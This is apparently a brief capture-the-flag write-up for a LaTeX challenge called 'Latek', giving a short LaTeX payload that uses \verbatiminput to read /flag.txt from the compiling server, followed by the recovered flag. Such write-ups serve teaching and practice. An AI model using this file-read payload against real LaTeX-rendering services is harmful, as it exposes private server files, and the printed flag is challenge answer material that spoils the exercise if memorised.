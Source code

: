 # Latek

very basic payload:

```latex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/flag.txt}
\end{document} 
```
amateursCTF{th3_l0w_budg3t_and_n0_1nstanc3ing_caus3d_us_t0_n0t_all0w_rc3_sadly}